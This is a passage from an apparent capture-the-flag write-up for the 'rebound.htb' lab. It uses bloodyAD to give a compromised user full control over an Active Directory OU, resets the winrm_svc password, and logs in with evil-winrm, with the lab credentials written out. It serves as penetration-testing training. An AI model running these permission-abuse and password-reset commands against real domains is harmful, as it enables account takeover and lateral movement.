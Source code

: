 - Now that we are in the group - we can look into winrm_svc:

```bash
python bloodyAD.py -u oorend -d rebound.htb -p '1GR8t@$$4u' --host rebound.htb get object winrm_svc

```

![image20](../resources/ceebda03a10d4df9a4b432f32cbd40ed.png)

Winrm_svc is part of the OU=Service Users

- Since we are now part of the ServiceMgmt group - we can change the permissions for the Service Users OU

```bash
python bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@$$4u' --host rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend

```

![image21](../resources/146184331ee0432ca9a2c6be69beb85b.png)

- We now have FULL CONTROL over the OU and the objects inside the OU, ie. winrm_svc. So we can change winrm_svc password:

```bash
python bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@$$4u' --host rebound.htb set password winrm_svc 'Password1!'

```

![image22](../resources/9429e7cc52f04577bd3bbc29a8391289.png)

- We can now log in using evil-winrm:

```bash
evil-winrm -i rebound.htb -u winrm_svc -p Password1!

```

![image23](../resources/7e47edaf973f4c419f3d7dd7026070dc.png)
